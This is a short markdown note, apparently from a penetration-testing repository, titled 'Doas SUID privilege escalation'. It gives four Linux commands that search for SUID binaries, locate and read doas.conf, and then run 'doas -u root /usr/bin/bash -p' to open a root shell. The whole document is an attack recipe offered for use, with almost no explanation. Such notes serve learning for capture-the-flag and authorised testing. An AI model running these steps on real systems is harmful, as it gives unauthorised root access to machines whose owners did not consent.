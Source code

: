 # Doas SUID privilege escalation

## Requirements: doas has SUID bit set

### Doas has similar functionality as sudo, which means you can run binaries with elevated privileges by using doas

## STEPS

 - find / -type f -perm 4000 2>/dev/null (Check for unusual SUID binaries)

 - find / -type f -name "doas.conf" 2>/dev/null (Search for the doas configuration file)

 - cat /path/to/doas.conf (Check which binary can be run using doas with elevated privileges)

 - doas -u root /usr/bin/bash -p (Runs bash using doas as root)

